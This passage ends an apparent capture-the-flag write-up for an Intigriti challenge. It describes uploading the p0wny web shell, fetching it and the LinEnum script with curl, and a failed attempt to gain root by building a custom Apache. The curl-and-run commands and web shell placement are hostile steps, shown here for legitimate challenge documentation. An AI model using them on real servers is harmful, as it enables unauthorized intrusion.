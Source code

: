 I used `p0wny shell` from webshell.org<br>
Since the magic bytes trick with `GIF89a;` breaks the webshell response handling, we have to upload the plain file.<br>
`curl --output ps.php 'https://webshell.org/p0wny-shell.txt'`<br>

Running my shell `https://challenge-1025.intigriti.io/uploads/ps.php` starts the post examination.<br>

Downloading `LinEnum` script from [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum) to get system details and detect possible attack vectors.<br>
```
curl -L --output /tmp/LinEnum.sh 'https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh'
chmod +w /tmp/LinEnum.sh
./tmp/LinEnum.sh
```
* nothing found ✅

Tried to start an own apache2 instance with modified configuration, especially the `User root`<br>
Copy whole /etc/apache2 to /tmp and modifiy the content<br>
* Editors like `vi`/ `vim` / `nano` are not present on the system, so `sed` is our friend ✅

`apachectl -k start -f /tmp/apache2/apache2.conf`<br>
Apache does not start as root and it needs to be compiled with `-DBIG_SECURITY_HOLE`<br>
* Downloading apache sources ✅
* Fixing missing apr lib by dropping into srclibs ✅
* Fixing missing prce lib by dropping into srclibs ✅
* Fixing missing extpat by locally compiling ✅
* We need to follow the redirects while downloading the sources with `curl -L ....` ✅
* Fixing missing shared modules by compiling static ✅
* apache `make install` did not work with my minimal setup ❌
* apache binary in source code directory is running on my own port ✅

At the end I could start my own apache instance, but of course is was running as www-data and not as root.

* compiling apache with creation of suexec binary ✅

Did not help.

For sure, I couldn't excalate to root with this simple experiment. However, I have consolidated my skills in building binaries.<br>

**Now** I'm finished with the challenge and the challenge with me.


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2025 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
